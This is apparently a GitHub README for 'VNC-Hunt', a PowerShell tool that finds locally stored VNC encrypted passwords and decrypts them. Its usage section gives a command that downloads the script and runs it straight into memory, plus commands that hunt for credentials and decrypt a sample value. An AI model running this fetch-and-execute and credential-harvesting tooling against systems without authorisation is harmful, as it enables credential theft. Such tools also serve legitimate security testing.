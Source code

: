 ## About

A small PowerShell script that hunts for local VNC encrypted passwords and decrypts them.

### Usage
Load into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/VNC-Hunt/main/VNC-Hunt.ps1")
```
Hunt for VNC credentials
```
VNC-Hunt
```
Decrypt supplied encrypted password value
```
VNC-Decrypt -Password FACBCF50C3BF1C08
```

![image](https://github.com/The-Viper-One/VNC-Hunt/assets/68926315/8867a265-7afc-4ff2-a9d2-4f0894326199)

